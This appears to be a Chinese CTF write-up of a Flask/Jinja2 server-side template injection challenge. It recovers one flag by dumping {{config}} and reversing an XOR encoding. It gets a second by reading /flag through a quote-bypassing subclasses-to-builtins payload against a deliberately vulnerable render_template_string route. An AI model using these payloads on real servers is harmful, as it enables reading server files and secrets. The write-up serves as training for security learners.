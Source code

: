 # WEB方向3的三叶草二面招新题目的报告 #
###### 19-web-absolute_field

本ctf题目是一道flask框架的ssti注入题，题目中提示了有两个flag
一个在app.config中，另一个在根目录下

首先，我对flask框架进行了一些研究，了解了其基本的格式


> flask中文文档:
> [https://dormousehole.readthedocs.io/en/latest/](https://dormousehole.readthedocs.io/en/latest/ "flask中文文档")

 最基本的框架应用：helloworld

```python
from flask import Flask
app = Flask(__name__)

@app.route('/')
def hello_world():
return 'Hello, World!'
```

之后研究其源码：
	def encode(line, key, key2):
	return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x]))for x in range(len(line)))
	![ssti](D:\darktech\ssti.jpg)

```python
file = open("/app/flag", "r")
flag = file.read()
app.config['flag'] = encode(flag,
'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3',
'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
flag = ""
```

很显然，这是一串Python的定义函数encode代码，用于对存放在app/flag的flag进行加密。

比较有趣的是，这串代码的加密解密居然是一模一样的。加密一次就是加密，再加密一次就解密了。

这个加密算法的原理是异或加密算法，异或加密算法中:

```
a^b=c , 则 b^c=a.（a,b,c分别表示一串二进制数）
```

> 关于异或加密算法的链接:
>
> [异或加密算法](https://blog.csdn.net/d_r_l_t/article/details/81369407)



研究了这一部分以后，我把目光转向如何从app.config获取flag。
在翻阅了一些资料以后，找到了ssti的注入方法调取app.config

> 翻阅到的大佬的博客感觉非常的好:
> 
> [CTF SSTI的讲解，很详细](https://blog.csdn.net/qq_33020901/article/details/83036927 "ctf ssti")

调用{{config}}模块:

> {{config}} 



![QQ截图20191022195359](C:\Users\Administrator\Desktop\QQ截图20191022195359.jpg)

这个payload是从网上白嫖的，实际上只需要输入{{config}}就行

抓取到flag是：**\x18X5\x0cx\x19k}\r\x01a\x0c\x1fT\x16X?hl\x1e\\OLL(n\x17\x0fi]B\x0fh8**
显然这是加密过的。依据前面的代码补出python程序

```Python
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

flag = encode('\x18X5\x0cx\x19k}\r\x01a\x0c\x1fT\x16X?hl\x1e\\OLL(n\x17\x0fi]B\x0fh8', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')

print (flag)
```



##### 于是得到config处flag：**Syc{this\_1s\_Twice\_interv1ew\_F14g}**

----------


另一个flag在根目录下

审计了题目这里的代码:
	
```python
@app.route('/syc')
def syc():

if "'" in request.args.get('name') or '"' in request.args.get('name'):
	return "nonono"
else:
	return render_template_string(request.args.get('name'))`
```

意思就是访问服务器/syc的目录get传参name变量，可以让服务器执行相应命令。过滤"",''符号

我查阅了一些资料

> [安全ssti bypass分析](http://www.secwk.com/2019/10/10/10195/)
> 
> [flask/jinja2模板注入](https://p0sec.net/index.php/archives/120/ "jinja2模板注入")
> 
> [浅析ssti](https://bbs.ichunqiu.com/article-1823-1.html)

> ```python
> __class__ 返回类型所属的对象
> __mro__ 返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。 
> __base__ 返回该对象所继承的基类 //
> __base__和__mro__都是用来寻找基类的
> __subclasses__ 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表 
> __init__ 类的初始化方法 
> __globals__ 对包含函数全局变量的字典的引用
> ```

然后尝试构造了第一个payload(借助request.args绕过''限制):
```
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/flag
```

```python
().__class__.__bases__.__getitem__(0).__subclasses__()
#这部分是为了调用object基类，从而调用出file方法来操作
pop(40)(request.args.path).read()
#利用request.arg绕过''的限制
&path=/flag
#把路径设置为根目录
```

然后就失败了。我研究了半天到底是啥情况......结果发现这是个Python2的payload，根本没用，subclasses的pop(40)也就是file方法在Python3不存在。

所以说通过file方法调用文件显然是没用的。

当时发生了一个小插曲.....我为了找到subclasses的那个file方法，掏出了burpsuite的intruder爆破了一下靶服务器，结果服务器爆了.....后来我这个憨憨才想到是Python2和Python3的问题

不过后来我又仔细研究了一下发现了问题，看了这个博客很好，各方面都很详细
> [python-Flask模版注入攻击SSTI(python沙盒逃逸)](https://www.cnblogs.com/-qing-/p/11656544.html)

重新构造的payload:

```python
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__.open(request.args.path).read()}}&path=/flag
#这个调用class '_frozen_importlib._ModuleLock'来开启后面的方法寻找、读取flag文件
```

##### 得到flag:**Syc{this\_2s\_Twice\_interv1ew_F14g}**

> ~~感觉如果像原题一样过滤.我感觉我真的做不出来了QWQ~~